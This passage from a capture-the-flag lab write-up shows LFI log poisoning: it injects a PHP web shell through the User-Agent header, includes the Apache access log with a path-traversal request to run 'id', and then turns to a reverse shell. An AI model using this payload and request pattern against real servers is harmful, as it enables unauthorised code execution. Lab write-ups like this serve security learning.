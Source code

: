 I then check to see if I can use **log poisioning** to gain code execution and it works. To do this intercept a request in burp and change your user agent to the following:

```
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Firefox/91.0
```

And then add a command to the GET request:

```
GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&c=id HTTP/1.1
```

Then send the request through. Once you do you should get the following back and can see that the **id** command was inserted into the middle of the **user-agent**:

```
10.6.127.197 - - [23/Feb/2022:21:41:12 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&c=id HTTP/1.1" 200 807 "http://mafialive.thm/test.php" "Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 Firefox/91.0"
```

Now that we have RCE we should be able to get a shell on the system. I look up a quick oneliner PHP reverse shell on [**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) and pick the first one under the **PHP** section. I then **URL encode** it and send the request through **burp** and get a shell back:

<br>

![](images/archangel9.png)

